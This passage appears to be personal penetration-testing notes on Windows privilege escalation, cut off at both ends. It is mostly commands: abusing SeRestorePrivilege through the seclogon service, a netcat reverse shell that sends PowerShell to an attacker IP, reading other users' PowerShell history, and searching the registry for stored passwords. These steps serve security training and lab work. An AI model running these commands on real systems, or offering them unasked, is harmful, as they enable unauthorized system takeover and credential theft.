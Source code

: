 ```
		- `rlwrap -cAr nc -lnvp 135`
	- run `systeminfo` command
		- will output error, but will also get an admin shell at listener

***SeRestorePrivilege***
- need to alter a manual start service into a malicious one. `seclogon` is good target because doesn't require admin permissions 
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```
- need to see:
	- ObjectName = LocalSystem
	- RequiredPrivileges lists SeRestorePrivilege
	- Start value = 0x3 (0x3 means manual)
```
cmd.exe /c sc sdshow seclogon
```
- confirm we have correct permissions to manipulate the service
- need to see RP on the AU section, ex (A;;CCLCSW==RP==DTLOCRRC;;;==AU==)
	- RP = Start Service
	- AU = All Users
start listener, upload SeRestoreAbuse.exe and nc.exe to C:\temp, and run this command:
```
.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.45.208 4444 -e powershell.exe"
```
- root shell; might be unstable, use nc to create another shell (will be more stable without SeRestoreAb)

***Powershell history***
```
type C:\users\rudi.davis\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
- also check actual folder for other files
- check other users (sometimes administrator isn't blocked?)


***Search reg keys***
```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```

***Check listening ports***
```
netstat -ano | findstr LISTENING
```
TCP
```
Get-NetTCPConnection -State Listen | ForEach-Object { $_ | Add-Member -MemberType NoteProperty -Name ProcessName -Value (Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue).Name; $_ } | Select-Object LocalAddress, LocalPort, OwningProcess, ProcessName
```
- more details
UDP
```
Get-NetUDPEndpoint | ForEach-Object { $_ | Add-Member -MemberType NoteProperty -Name ProcessName -Value (Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue).Name; $_ } | Select-Object LocalAddress, LocalPort, OwningProcess, ProcessName
```


***Check  `C:\Program Files` and `C\Program Files (x86)` for third-party programs***
```